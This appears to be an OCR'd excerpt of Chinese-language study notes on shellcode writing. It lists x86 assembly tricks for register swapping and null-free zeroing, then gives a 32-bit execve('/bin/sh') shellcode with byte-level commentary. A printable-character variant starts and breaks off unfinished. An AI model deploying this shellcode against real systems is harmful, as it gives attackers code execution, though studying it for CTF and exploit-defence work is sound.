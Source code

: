 ```asm
pop eax
cmp al, 43h
jnz lable

<=> jmp lable

6.交换al, ah
push eax
xor ah, byte ptr [esp] // ah ^= al
xor byte ptr [esp], ah // al ^= ah
xor ah, byte ptr [esp] // ah ^= al
pop eax

7.清零:
push 44h
pop eax
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0
```

32位shellcode：

```python
#寄存器设置
  ebx = /bin/sh       ## 第一个参数
  ecx = 0             ## 第二个参数
  edx = 0             ## 第三个参数
  eax = 0xb           ## 0xb为系统调用号，即sys_execve()系统函数对应的序号
  int 0x80            ## 执行系统中断
######################################################################### 

## 更精炼的汇编代码
## 
## 这里说明一下，很多博客都会用"/bin//sh"或者官方的"/bin///sh"
## 作为第一个参数，即添加/线来填充空白字符。这里我将"/bin/sh"
## 放在最前面，就不存在汇编代码中间存在空字符截断的问题；另外
## "/bin/sh"是7个字符，32位中需要两行指令，末尾未填充的空字符
## 刚好作为字符串结尾标志符，也就不需要额外压一个空字符入栈。

	push 0x68732f        # 0x68732f --> hs/     little endian
	push 0x6e69622f      # 0x6e69622f --> nib/  little endian
	mov ebx, esp
	xor edx, edx
	xor ecx, ecx
	mov al, 0xb          # al为eax的低8位
	int 0x80
	## 汇编之后字节长度为20字节

##########################################################################
## 构造可见字符的shellcode
##
## push "/bin/sh"
	push 0x68732f
    push 0x6e69622f
    push esp
	pop ebx
## int 0x80 = \xcd\x80
	push edx
    pop eax
    push 0x60606060
```